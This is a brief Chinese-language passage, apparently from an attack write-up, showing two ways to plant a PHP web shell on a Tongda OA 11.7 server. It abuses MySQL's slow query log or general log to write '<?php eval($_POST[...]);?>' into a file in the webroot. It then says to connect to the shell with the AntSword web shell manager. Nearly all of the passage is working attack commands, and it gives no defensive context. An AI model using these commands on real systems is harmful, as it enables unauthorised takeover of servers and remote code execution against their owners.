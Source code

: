 

然后写shell

方法一:

```
select @@basedir;
set global slow_query_log=on;
set global slow_query_log_file='C:/tongda11.7/webroot/test.php';
select '<?php eval($_POST[x]);?>' or sleep(11);
```

方法二:

```
select @@basedir;
set global general_log = on;
set global general_log_file ='C:/tongda11.7/webroot/test2.php';
select '<?php eval($_POST[test2]);?>';
show variables like '%general%';
```

最后拿蚁剑连接